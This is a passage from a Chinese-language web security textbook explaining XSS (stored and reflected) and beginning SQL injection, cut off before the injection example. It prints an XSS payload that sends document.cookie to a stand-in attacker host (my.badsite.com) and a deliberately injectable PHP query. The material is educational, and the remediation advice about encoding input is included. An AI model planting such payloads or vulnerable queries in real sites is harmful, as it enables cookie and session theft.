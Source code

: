 了解现代 Web 应用程序使用 AJAX 可能会为您提供一种额外的方法，通过干扰或操纵这些 AJAX 请求和响应来操纵服务器。

## 常见的 Web 应用攻击

开放 Web 应用程序安全项目(OWASP)负责跟踪当前的 Web 应用程序漏洞。你可以通过访问他们的网站获得最新的列表。我们将看看一些更常见的网络漏洞。除了查看攻击的结构，我们还将讨论攻击针对架构的哪个方面。

### 跨站点脚本(XSS)

跨站点脚本(XSS)攻击是一种针对客户端系统的注入式攻击。可以在网页浏览器中运行的脚本语言，如 Javascript，被注入到网页中。然后，不知情的用户会访问该页面，攻击者提供的脚本会在用户的浏览器中运行。有两种类型的 XSS 攻击。第一种叫做存储的或持久的 XSS。这意味着攻击者已经设法将脚本存储在数据库中，以便当用户访问网站时，脚本显示在网页中。例如，这可能在博客帖子的评论栏中。因为脚本是由浏览器处理的，所以用户永远看不到它，甚至不知道它正在运行。有了这样的攻击，你可以在网站上种下种子，然后等待不知情的用户访问来获得好处。

第二种类型的 XSS 攻击称为反射攻击。利用反射攻击，攻击者创建一个 URL，并在 URL 中嵌入脚本，调用易受 XSS 攻击的页面。对于这种攻击，攻击者需要用包含脚本的参数创建 URL，然后将其发送给用户。这可以通过在基于 HTML 的消息中使用附加脚本来隐藏实际 URL 的电子邮件来完成。因为额外的参数和脚本可能会泄露它。

攻击本身非常简单。您提供了一组 HTML 标记，表明您有一个脚本。当它出现在 Web 浏览器中时，浏览器会看到脚本标签并运行标签中的内容。一个非常简单的例子是:

```
<script>alert('this page is vulnerable to XSS');</script>

```

这不是很有趣，因为它所做的只是弹出一个对话框，说“该页面易受 XSS 攻击”，这肯定会提醒用户发生了一些事情。更有趣的是编写从用户那里窃取信息的 Javascript。由于来自第三方的页面不应该能够窃取代表其他站点存储的信息，您可以使用 XSS 攻击来收集这些信息，然后将其传输到另一个站点，攻击者稍后可以在那里收集这些信息。这方面的一个例子是这样的:

```
<script>document.write('<img src="http://my.badsite.com/goodsite.php?cookie=' + document.cookie + '" />')</script>

```

这个小攻击使用`document.cookie`从页面获取 cookie，并将其嵌入到一个 URL 中。URL 位于图像标签中，这意味着浏览器将向该 URL 发送请求。URL 甚至不必存在，因为请求将被放入日志中，稍后可以解析该日志以获取 cookies 和 IP 地址。在多个站点受到攻击的情况下，对`goodsite.php`的引用可以指示 cookie 来自哪个站点。当然，使用这种技术也有可能窃取其他信息。

像在`document.write`或`document.cookie`中一样，使用`document`后跟一个方法或属性，这就是文档对象模型(DOM)。DOM 是一种将 Web 页面转换成可以使用 document 对象访问的对象集合的方法。此外，文档有类似于`write`的方法，可以访问这些方法来对文档执行操作。在我们的例子中，我们从该脚本所在的文档中收集 cookie，并使用`write`方法将 cookie 放入 URL，这将最终将 cookie 发送到恶意服务器。

XSS 攻击源于未正确验证的输入。在大多数情况下，没有理由接受 HTML 标签作为输入。事实上，在大多数情况下，你不需要接受任何一个< or >作为输入。因此，Web 应用程序程序员应该对输入进行适当的调整，以确保这些类型的字符不被原样接受，而是被转换为更安全的选项，如 HTML 变体`&lt;`和`&gt;`，它们让浏览器呈现小于和大于字符，而不实际使用这些字符，因为它们可能被解释为试图创建 HTML 标记。

### SQL 注入

SQL 注入攻击是针对数据库服务器的攻击，攻击者将代码传递到数据库中，由数据库服务器本身直接执行。结构化查询语言(SQL)代码被插入到网页上的表单中，SQL 被一路传递回数据库，并在那里执行。为了了解这种特定的攻击是如何工作的，让我们来看看一些非常简单的代码，这些代码旨在获取用户列表，其中字段`username`等于传递给这段特定代码的值:

```
$query = "SELECT * FROM users WHERE username = '" + $username "';";
$result = mysql_query($query);

```

正常情况下，剧本会把弗雷德、伍布尔、珍妮特、阿提克斯或佐伊作为例子。如果您提供用户名，您将获得与您提供的用户名相关的所有信息。相反，如果您提供一段 SQL 来改变查询，就像下面这样，您将得到完全不同的结果:
